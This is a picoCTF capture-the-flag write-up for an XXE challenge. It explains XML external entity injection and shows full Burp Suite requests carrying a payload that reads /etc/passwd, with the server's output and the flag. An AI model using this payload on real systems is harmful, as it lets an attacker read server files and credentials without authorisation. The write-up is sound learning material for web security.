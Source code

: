 # Description

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.

**tags: Web Exploitation, XXE**

## Notes

- Looking at the tag, I probably has to do with XXE
  - XXE (XML External Entity Injection)
    - Web seurity vulnerability that allows an attacker to interfere with an application's processing of XML data
    - Often allows an attacker to view files on the application server filesystem
  - Types of XXE
    - XXE to retrieve files
    - XXE to perform SSRF attacks
      - SSRF: Server-side request forgery
    - Blind XXE exfiltrate data out-of-band
    - Blind XXE to retrieve data via error messages

### exploit

`burpsuite`

- Use proxy browser and open up the website with interception on

```
GET / HTTP/1.1
Host: saturn.picoctf.net:63103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- Send the packet to repeater to send the injected code
```
GET / HTTP/1.1
Host: saturn.picoctf.net:63103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 153

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

- When I sent the packet, injection seems not working
- I manipulated the packet here and there and came across [this](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) website
- I did not have the xml code in the packet
- This time, I intercepted the packet when I clicked one of the button on the website

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:62861
Content-Length: 61
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:62861
Referer: http://saturn.picoctf.net:62861/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```

- Now I have to inject the packet below the `<?xml>` tag and replace the content within `<ID>` tag with the proper value in my case `&xxe;`

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:62861
Content-Length: 132
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://saturn.picoctf.net:62861
Referer: http://saturn.picoctf.net:62861/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>
&xxe;</ID></data>
```

- Injection worked!

```
HTTP/1.1 200 OK
Server: Werkzeug/2.3.6 Python/3.8.10
Date: Tue, 14 Nov 2023 03:56:57 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 1024
Connection: close
```

```
Invalid ID: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}
```

**Flag found: picoCTF{XML_3xtern@l_3nt1t1ty_e79a75d4}**